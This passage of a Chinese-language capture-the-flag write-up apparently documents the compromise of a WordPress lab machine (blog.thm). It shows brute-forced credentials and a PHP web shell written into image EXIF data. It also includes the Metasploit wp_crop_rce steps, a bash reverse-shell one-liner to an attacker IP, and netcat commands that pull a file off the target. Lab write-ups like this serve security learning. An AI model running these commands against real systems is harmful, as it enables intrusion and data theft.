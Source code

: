 		- ~~抱歉我就歧視~~
- 等了十幾分鐘，真的成功的爆出了密碼!!
	- ![](https://i.imgur.com/tsmDBHk.png)
		- `kwheel` / `cutiepie1`
		- `果然老人家愛用弱密碼`
- 接下來到 `/wp-admin` 準備登入
	- ![](https://i.imgur.com/BsDUBsd.png)
	- 也就真的順利登入了!!
		- ![](https://i.imgur.com/d4ssuZc.png)
	- 不過我們的使用者是 `editor`
	- 沒有權限可以修改 template 之類的方法取得 RCE

## 嘗試 exploit-db 的 Payload (失敗)
- 先講結論，失敗了，我也不知道為什麼 QQ
	- 我已經完全照著網路上的方法做
	- 但是還是怪怪ㄉ QQ
- 使用先前載好的 https://www.exploit-db.com/download/49512 
- 依照提示準備一個 `gd.jpg`
	- `cp Alice-White-Rabbit.jpg gd.jpg`
	- 這邊我直接使用 smb 偷出來的圖片
- 用 exiftool 寫入 shell
	- ```exiftool gd.jpg -CopyrightNotice="<?=\`\$_GET[0]\`?>"```
	- ![](https://i.imgur.com/F5TuZD8.png)
	- 在這邊我們可以用 strings 觀察，檔案真的被寫進去了
		- ![](https://i.imgur.com/HRcbPDx.png)
- 修改原始碼的 `lhost` 與 `lport`
	- ![](https://i.imgur.com/2aBtMmn.png)
	- `python3 49512.py http://blog.thm/ kwheel cutiepie1 twentytwenty`
	- `nc -nvlp 7877`
    - 然而，都失敗了QQQ
 
## 使用大絕招 msf !!
 - 輸入 `msfconsole`
    - `use exploit/multi/http/wp_crop_rce`
    - `show options`
 		- 觀察需要的參數
	- `set PASSWORD cutiepie1`
    - `set USERNAME kwheel`
    - `set RHOSTS blog.thm`
    - `set LHOST 10.13.21.55`
    - `exploit`
		- ![](https://i.imgur.com/KDy6Yfs.png)
    - 就成功接上了 meterpreter 的 shell
        - 但這邊我還是想使用普通的 reverse shell
        - 所以我們就輸入 `shell` 切換進入
- 再來我想接回 reverse shell
    - 在攻擊機輸入 `nc -nvlp 7877`
    - meterpreter 輸入`bash -c 'bash -i >& /dev/tcp/10.13.21.55/7877 0>&1'`
    - 就可以順利接回 shell
        - 然而在使用者的家目錄看到的 `user.txt` 是假的 QQ
            - ![](https://i.imgur.com/2866L1g.png)
        - 沒關係，我現在懶得找，等有 root 後再說ㄅ
- 觀察使用者家目錄有一個 pdf 檔案，抓出來研究看看
    - 攻擊機 `nc -l -p 1234 > Billy_Joel_Termination_May20-2020.pdf`
    - 靶機 `nc 10.13.21.55 1234 < Billy_Joel_Termination_May20-2020.pdf`
    - 然而裡面是一封沒有很重要的 pdf
